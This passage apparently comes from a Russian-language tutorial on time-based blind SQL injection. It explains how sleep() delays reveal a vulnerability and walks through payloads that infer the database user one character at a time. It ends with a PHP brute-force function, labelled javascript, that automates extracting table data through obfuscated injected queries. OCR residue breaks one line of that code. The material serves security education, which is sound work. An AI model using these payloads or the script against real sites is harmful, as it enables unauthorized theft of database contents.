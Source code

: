 Название атаки отражает ее суть: требуется сформировать запрос, содержащий функции, которые искусственно задерживают выполнение. Если запрос выполняется мгновенно, это означает, что инъекция не удалась. Если же наблюдается задержка, то запрос успешно обработан, что подтверждает наличие уязвимости.

Пример определения:

```sql
id' and sleep(10) -- 
```

Пример эксплуатации:

```sql
id=1' and if (Ascii(substring((Select user()),1,1))>97, sleep(10),0) --
```

Обратите внимание на функцию `sleep(10)`. Это та самая функция для задержки выполнения запроса, в конкретном примере на 10 секунд. Т.е. если страница загрузилась спустя 10 секунд, то у нас есть уязвимость.

Разберем пример эксплуатации подробнее.
- `substring((Select user()),1,1)` — сначала sql-запрос возвращает строку с результатом. Потом функция substring возвращает первый символ этой строки.
- `Ascii(substring((Select user()),1,1))` — возвращает код символа по ASCII.
- Код 97 соответствует символу «a» латинского алфавита. Все, что ниже этого кода, не будет являться символом латинского алфавита. Поэтому мы проверяем, является ли первый символ запроса буквой.
- Если является, то далее функция `sleep` приостановит работу выполнения на 10 секунд. Именно благодаря этому мы и понимаем, что инъекция прошла.

Есть множество путей проведения быстрой эксплуатации. Это зависит от вашей фантазии и опыта. Ниже приведен простой пример проверки по символам на основе временной задержки.

```javascript
function brute($column,$table,$lim) 
{ 
  $ret_str = ""; 
  $b_str = "1234567890_abcdefghijklmnopqrstuvwxyz"; 
 
   
 
21 
  $b_arr = str_split($b_str); 
  for ($i=1;$i<100;$i++) 
  { 
    print "[+] Brute $i symbol...\n"; 
    for ($j=0;$j<count($b_arr);$j++) 
    { 
      $brute = ord($b_arr[$j]); 
      $q = 
"/**/and/**/if((ord(lower(mid((select/**/$column/**/from/**/$table/**/li
 mit/**/$lim,1),$i,1))))=$brute,sleep(6),0)--"; 
      if (http_connect($q)) 
      { 
        $ret_str=$ret_str.$b_arr[$j]; 
        print $b_arr[$j]."\n"; 
        break; 
      } 
      print "."; 
    } 
    if ($j == count($b_arr)) break; 
  } 
  return $ret_str; 
}
```
